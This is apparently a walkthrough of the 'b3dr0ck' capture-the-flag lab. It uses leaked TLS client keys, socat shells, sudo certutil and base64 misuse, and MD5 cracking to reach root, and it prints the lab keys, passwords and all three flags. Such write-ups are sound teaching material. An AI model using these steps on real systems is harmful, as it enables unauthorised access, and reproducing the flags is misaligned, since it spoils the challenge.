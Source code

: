 # b3dr0ck

Fred Flintstone   &   Barney Rubble!

Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...

He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
Can you find all the Easter eggs?

---

nmap scan 

```abap
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
80/tcp    open  http    syn-ack ttl 64
4040/tcp  open  yo-main syn-ack ttl 64
9009/tcp  open  pichat  syn-ack ttl 64
54321/tcp open  unknown syn-ack ttl 64
```

Going to the website we get this 

```abap
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

Pivoting a little bit I set up a `nc bedrock.thm 9009`and we get this. You can look at the room and the hints it provides for you in order to find the next clue. Typing cert and key get this.

```abap
client certificate

-----BEGIN CERTIFICATE-----
MIICoTCCAYkCAgTSMA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yNTA5MTIwMDMxMDVaFw0yNjA5MTIwMDMxMDVaMBgxFjAUBgNVBAMMDUJh
cm5leSBSdWJibGUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC1SbEg
PW9cF/46R91MN2VbxEWC6TiEnW8H7dkeCTagsOJytuoE0oq9DTrJvZhR9el1TVlC
Ro141IV4x42k2qStBKRV3W/azjJYKi5qSqickJ522rZ78NTZnUb8aR3oqAUS84QO
fkBGuvh6NDy2xQ1xhdOAlRmxFzvFXMPu4FUCsJNrKZC5UN/kkoGjsXM0kO01NXTG
usa1Dr9pMYzbQ9zwq2jjSEMY64ixyfRdZfValwhbJRtLg/YUPU/MNIVdpPXzN0YU
myl/qjkwsJSvUSUx+bUEKMIwU16VkBDKE2820+UuBj5gL7HPW7qSsicQeIHBfHDo
DajjUCYgNhGStSkfAgMBAAEwDQYJKoZIhvcNAQELBQADggEBABs83fhaCL19wvd3
So9E1EMcJaRJ1SS74FU6uQbnoLKpkpMTocHInGCmyMMmUHQyELnFMfzelyBeTjE9
ECkRFYMKHxSSQzsRWXUfQ0R/PoABeInfThtBvXCrf+WsbUVk96/OJke7SgYDNX3P
z9B72CDoEuMcBPdgbGYvLkBTcwT/U8XD+PQ1FGQzy/wsTz0JbnJRaSlat3VlEae0
T5qceH7J53UvfpwaQDKu3vmAl08hQFlaLnu2Cs8j9aVK0A/GMEoEJZWLkDkHD3Fi
wHDAyRfItUOz/S5fmub7liPLz4GI+/IEgRaKgqX/mOsBJ546S+Z4uQtJJYPiuoF2
QYCA8Kc=
-----END CERTIFICATE-----
```

```abap
private key

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtUmxID1vXBf+OkfdTDdlW8RFguk4hJ1vB+3ZHgk2oLDicrbq
BNKKvQ06yb2YUfXpdU1ZQkaNeNSFeMeNpNqkrQSkVd1v2s4yWCouakqonJCedtq2
e/DU2Z1G/Gkd6KgFEvOEDn5ARrr4ejQ8tsUNcYXTgJUZsRc7xVzD7uBVArCTaymQ
uVDf5JKBo7FzNJDtNTV0xrrGtQ6/aTGM20Pc8Kto40hDGOuIscn0XWX1WpcIWyUb
S4P2FD1PzDSFXaT18zdGFJspf6o5MLCUr1ElMfm1BCjCMFNelZAQyhNvNtPlLgY+
YC+xz1u6krInEHiBwXxw6A2o41AmIDYRkrUpHwIDAQABAoIBABi127veQ+CUsKV3
CDYMUveIMEVgzsBcyTaWeAK9FMIgei1Su2E+5YRRWlMHUczSLSk9Cs6a2UvABBVr
deYjm1CuEkxV65oygvA7h6obVRJKMB9ZPoh0Uj77TiK3nUkKJe7oXHaxRMefUqEt
n5z2DRgNOsALEr5twUrskxRrZYsBFZTzJ+ejgQ071mQ1Tanb2I94I3RO/9BE9Ux3
VaiQzlCK6/AQ0PBzVDdIjMEpiSk2/U+Qr7enA3XYuL5+ZELQ4zBtUXu2lAmbd76h
WrlbQBUvRWBDDNgscsXNC/idAgB+g+N673C82+wK+E6eH7A9EdI+ZVo6w763JcSa
o6qdjFECgYEA6r9XT19QPYNMidqSUMm7LzV1x0qAz6F3Ozrm3Qx9hgA5AXV/7NoV
2B8yvyhDU73YrFXu2alpfo4FBMQCkmkpnuESMXCxAU6vpEOnlylkFLUPkHgvpX1V
Yqq97zT/qq2vFl5dZZ2mUa4clbu+TPAZ2GWYxKDK/JxPMo8es9i3OJkCgYEAxbNW
UIR2KzMjMCd4x5idj5fQyd9P4oVtWC3QqIgQDQVU5sF4aQI3QBoXZJ2kU8GX22Np
AE/6Vpm7CqkTdtUKOkoZVWCYhKLSXWJiyy4BMsAMt3XAR9n1VLh5acfyBRZawm5f
FXdqff585DMTMeUVcG+Dgk4xOJnMlG4WpFT+6ncCgYAEZvQvM91gWe78gtHNnArb
lsgPpbEGs8N1o+QibxKHiceH5HkyquBP/j3IYevpTR0cFjx1bnzg967WaQqXTkuO
hDAAJ1naaWxXy0EAT7FlxgN1tRtHojMQt5z6OGc2/yzSYZCk0DEHRRmaITwvWy1Q
5o7X2SAVXqUJkK+FteGxuQKBgA7wNh1vZN5uxsHkuaObTIyFFCmszgR3wINhMtsJ
LO1O8dNd2xNUL4iQcCQSJVCO2EKjiFOVt3zDsPZlQCtCfbtZzgA9hEjBZNPZk012
9HA5Qry6EQVc2sTEC6iKiycHQWRfop+knk9W42j60wB6JtyQEIfQELgOJv8wMlXI
dlqRAoGBAOAxpa8wk5aOOANSg4iXJzr65HONYUOTf0VlpHAW2Ka2tLzuQzY1jD/A
6YYfsN09J4davs27d4NEhhuDSrsI/pzWXagHRkFG9MB8b6qRemjDiaeowaBJXsJq
ejzAWKmgmkZb+rPgwh1mhPGLVLEupwDFBjvf8XVLiSJcqgNL+gqf
-----END RSA PRIVATE KEY-----
```

But then typing help finally gets you this

```abap
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
```

So running this command we are presented will a shell

```abap
socat stdio ssl:bedrock.thm:54321,cert=cert,key=key,verify=0
```

Typing password we get this

```abap
b3dr0ck> password
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```

After trying for a while to decode it and remove the hash I gave up and tried it as the actual password. So ssh in and you get barneys flag

> THM{f05780f08f0eb1de65023069d0e4c90c}
> 

Running `sudo -l` 

```abap
[sudo] password for barney: 
Matching Defaults entries for barney on ip-10-201-93-250:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on ip-10-201-93-250:
    (ALL : ALL) /usr/bin/certutil
```

Certutil.exe is a command-line program installed as part of Certificate Services. You can use certutil.exe to display certification authority (CA) configuration information, configure Certificate Services, and back up and restore CA components. The program also verifies certificates, key pairs, and certificate chains. Running this we can create a new certificate and key for fred.

```abap
sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```

```abap
sudo /usr/bin/certutil fred fred

Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
```

```abap
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA5hrzq8nkakTMQLSPujn96LK+tArsLfGaALRgcEE5kjtv/Ur+
PVIZQZrolgp2OWftuRyD2y3W0zd/iRsMTBdX3YYAUZBhPoqdE0gNw72cfViTf36n
AITeEUGhPx6U2CMGRKuA87bLLBbjCUScb9BrEsABhqKh8T5vtC7FiJgXLrYYFddV
V8F6ZrMAtOCKZwPiJgKI3AfEvqll2RS7v6L+FCZoZPr9tTpY0QsciYzz+Z4vsO0z
smnrjI2bVVqhjlPteXW3A4d/Ftq3acSbyK14RcoqyWbQQrk6yblweVMynHQ/j1pc
WwHVtfmttiz7UGuAwp+Y3quME0M5tZ9mHqO4aQIDAQABAoIBAQDTqytHdZqWXt79
DpvAFSSKcBKZEAseYEboKwUjffx1lhN4jwm8Ys802Ejn7IvAVugJBkAM2Ofqt/yr
pKP1QuvirSeR4Bx0KZJAcGGpE7zmWRqlh14cThzxBsxLgdgt0lorxRAEILxYvFzw
45p8CN7WCqXcsbICdwrOVtACzNVWcxCunYcv3Ct1p5wyyFfdaSNHaGNuwlrr7ThA
OCwNQ3d0VssyuwZxIHFsTbv3KvA1AVPe78BTsDjOCEAp4c4ZLlRcb/cYGcfM7Ctq
wMFKAwEkSpR0JTL7znXH5EjOXnb4S7iRZgIUWtBM7MUgKuFLrT+SEmB0jHrssw3D
k/D510RZAoGBAPclHv5w+WQdhUKW6Je6gIlaa4EIgD9OSvD8zm5VDUvphy0U8VWE
7yRAXy/giX4WfOceQy7ELyp3TXYjIbhsWcKyLFl1f+cgorou13uTiMsXsdGapXGF
xY0Ip5adJOzmkNrk3Uk5jiLiV4IVpjSsalctmhHxSoyAqelyj4FUIDX/AoGBAO5Z
ibbsnERPMhDt3wkhSRdqPOJGRvW/SLBFM7XdI2vucvgK9LeV5gK8AXRufEYh1a9V
1NoRzcFAdSx/3TR39yvLWnAlNzajpJGfMS/1ZQn1fc8t4c7W5l9HW8C6Gh8fzuNH
+BQzALyNV5PWvqtviIzXSHT8hrNI7GoCdU3zUiGXAoGBAJDx8G+BioIw3grjvp3d
/6yOnyYZ+j0micU0P01uDFJNL7483h0tzaMRLcJCieCtB6v0j6pJ3O+m8IMsr4Yd
5bbOEDyXMOA4v7c56Z7MNBoIV316mTUvI2FHhiJLH3Dg+Guodi+P1dCXtoLQd53E
0Mk4MXf8b6BfhUcorQlIcWu5AoGAYVdF6+Pz6d3iF5HeDa9/V0W2+b4zyrdFK2AH
v1VB2xl18KEg0j0ww5seiPt6W3YD++h01l6BBlSZxgOuRnhcBJG3LKe2ReVNF3/J
KcnxasDMkakuWDfhu7W73hjjBCUMbDv/L9ioi1i6FJGWKxOQ09w0JjrflCbLDnxU
hfJCb58CgYEAgmTpGIT3EpGcWvGF5F2btNG+1MgUNVK64utX2fX0LCB3FLop5h7L
CPYzvsQKPGmv/sMalkqnT72iT5RLGuBJ+7VZe9PoEAaMtE7RAwskG2rXQd1+NwwF
lhzdcT9hI5uM3TLqovbGZSAqL+kq5FwfGaXayQiBJbUCfjA8e/uoGFw=
-----END RSA PRIVATE KEY-----

-----BEGIN CERTIFICATE-----
MIICmDCCAYACAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yNTA5MTIwMTMzMTlaFw0yNTA5MTMwMTMzMTlaMA8xDTALBgNVBAMMBGZy
ZWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDmGvOryeRqRMxAtI+6
Of3osr60Cuwt8ZoAtGBwQTmSO2/9Sv49UhlBmuiWCnY5Z+25HIPbLdbTN3+JGwxM
F1fdhgBRkGE+ip0TSA3DvZx9WJN/fqcAhN4RQaE/HpTYIwZEq4DztsssFuMJRJxv
0GsSwAGGoqHxPm+0LsWImBcuthgV11VXwXpmswC04IpnA+ImAojcB8S+qWXZFLu/
ov4UJmhk+v21OljRCxyJjPP5ni+w7TOyaeuMjZtVWqGOU+15dbcDh38W2rdpxJvI
rXhFyirJZtBCuTrJuXB5UzKcdD+PWlxbAdW1+a22LPtQa4DCn5jeq4wTQzm1n2Ye
o7hpAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAHy1C3ICxZfeJoIvfKTZyKzPeXMO
SuvcV1H/pyiKvarYOtr6DgMo7qZGMaaRXcj2TPB0z3IjJoNiPLyu6+mJ0Nx15Fiz
WlbisT+FLPBy7tmGsZEJuFNq/jvo2LUCeYbTjuvWUw5q7G/S/8/LCKUrIysc7NaB
wZE46E2Q6ikqfH6mRf8dBZl6L8mVm65DwoU29s7fa6vbiopn6FaM/UAoPE+86GdI
Wz7r6rZBh+JNe7AAA49HzulQIG0lAgaM+6Mvv5HXtyXMs8nBMO8fbbkTy9Tx4TCC
RH5gcPRbLLsJ2zXXJuUXDFhEpvLUZOC3882FdQX9SLgoco5dr2PFaeHYe6E=
-----END CERTIFICATE-----
```

Now that we have a key and cert we can do the same thing as we did to barney 

```abap
socat -d -d -v - OPENSSL:bedrock.thm:54321,cert=fredcert,key=ferdkey,cafile=ca.pem,verify=0
```

```abap
b3dr0ck> help
> 2025/09/12 02:37:40.705664  length=5 from=8 to=12
help
< 2025/09/12 02:37:40.706428  length=57 from=838 to=894
Password hint: YabbaDabbaD0000! (user = 'fred')
b3dr0ck> Password hint: YabbaDabbaD0000! (user = 'fred')
b3dr0ck> 
```

now that we have fred password we can switch user to fred and get the second flag 

> THM{08da34e619da839b154521da7323559d}
> 

Again we do `sudo -l`

```abap
fred@ip-10-201-93-250:~$ sudo -l
Matching Defaults entries for fred on ip-10-201-93-250:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on ip-10-201-93-250:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

```abap
fred@ip-10-201-93-250:~$ sudo /usr/bin/base64 /root/pass.txt
TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dO
QkdYVVJUTEpaS0ZTU1lLCg==
```

```abap
fred@ip-10-201-93-250:~$ printf 'TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dOQkdYVVJUTEpaS0ZTU1lLCg==' \
> | base64 -d | base32 -d | base64 -d

a00a12aad6b7c16bf07032bd05a31d56
```

After that you go to crackstation and get the hashed of the output

```abap
Hash	Type	Result
a00a12aad6b7c16bf07032bd05a31d56	md5	flintstonesvitamins
```

Then you can switch to root and get the flag 

> THM{de4043c009214b56279982bf10a661b7}
>
